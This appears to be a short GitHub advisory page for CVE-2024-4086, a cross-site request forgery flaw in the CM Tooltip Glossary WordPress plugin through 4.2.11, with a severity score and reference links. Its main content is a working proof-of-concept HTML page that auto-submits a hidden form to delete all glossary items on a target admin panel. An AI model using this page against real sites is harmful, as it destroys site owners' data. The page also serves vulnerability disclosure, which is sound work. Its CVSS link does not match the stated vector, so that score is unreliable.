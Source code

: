 ```yaml
---
layout: page
title: CVE-2024-4086
subtitle: CM Tooltip Glossary – Powerful Glossary Plugin <= 4.2.11 - Cross-Site Request Forgery
---
```

## Description

## Severity
 4.3 (Medium) - [CVSS:3.1/AV:N/AC:L/PR:N/UI:R/S:U/C:N/I:L/A:N]([https://www.first.org/cvss/calculator/3.1#CVSS:3.1/AV:N/AC:H/PR:H/UI:N/S:C/C:L/I:L/A:N](https://www.first.org/cvss/calculator/3.1#CVSS:3.1/AV:N/AC:L/PR:N/UI:R/S:U/C:N/I:L/A:N))

## Affected Version
    <= 4.2.11

## PoC :
```
<html>
  <!-- Made by eneriiiii -->
  <body>
    <form action="http://103.189.234.57/wp-admin/admin.php?page=cmtt_settings" method="POST">
      <input type="hidden" name="cmtt&#95;removeAllItems" value="Remove&#32;all&#32;items" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```

## Refrence
- https://plugins.trac.wordpress.org/changeset/3076616/enhanced-tooltipglossary/trunk/settings/CMTT_Settings.php?contextall=1&old=3029791&old_path=%2Fenhanced-tooltipglossary%2Ftrunk%2Fsettings%2FCMTT_Settings.php
- https://www.cve.org/CVERecord?id=CVE-2024-4086
- https://www.wordfence.com/threat-intel/vulnerabilities/wordpress-plugins/enhanced-tooltipglossary/cm-tooltip-glossary-powerful-glossary-plugin-4211-cross-site-request-forgery

